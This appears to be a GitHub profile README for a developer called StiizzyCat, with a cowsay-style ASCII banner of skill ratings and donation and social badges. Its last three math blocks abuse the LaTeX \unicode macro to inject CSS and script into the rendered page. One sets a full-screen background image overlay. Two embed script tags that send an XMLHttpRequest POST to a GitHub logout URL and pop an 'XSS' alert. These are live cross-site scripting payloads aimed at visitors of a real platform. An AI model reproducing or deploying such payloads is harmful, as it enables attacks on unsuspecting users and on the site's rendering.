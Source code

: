 ```JS
                                         [user@StiizzyCat ~]$ 
                                             ________________________________________
                                            /             Stiizzy Cat                \
                                            \ nodejs [8/10] C# [3/10] python [4/10] /
                                             ----------------------------------------
                                                                    \   ^__^
                                                                     \  (oo)\_______
                                                                        (__)\       )\/\
                                                                            ||----w |
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^||^^^^^||^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```
<div>
<p align="center"> <a href="https://www.paypal.com/donate/?hosted_button_id=PGKYAAVEQU5BW" target="_blank"> <img  src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/Donate.svg" alt="JavaScript"/></a> <a href="https://codepen.io/stiizzycat" target="_blank" ><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/codepenner.svg" alt="codepen"/></a> <a href="https://replit.com/@StiizzyCat0001" target="_blank"><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/repl.svg" alt="repl"/> </a>
 

```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background: url('https://github.com/StiizzyCat/StiizzyCat/blob/main/weed.gif?raw=true');]{x0000}$}
```

```math
\ce{$&#x5C;unicode[background-color: #f00; <script>var xhr=new XMLHttpRequest();xhr.open('POST','[http://example.com/api_endpoint](https://github.com/logout)',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('payload=data_to_send');alert('XSS');</script>;]{x0000}$}
```

```math
\ce{$&#x5C;unicode[<script>var xhr=new XMLHttpRequest();xhr.open('POST','[http://example.com/api_endpoint](https://github.com/logout)',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('payload=data_to_send');alert('XSS');</script>;]{x0000}$}
```
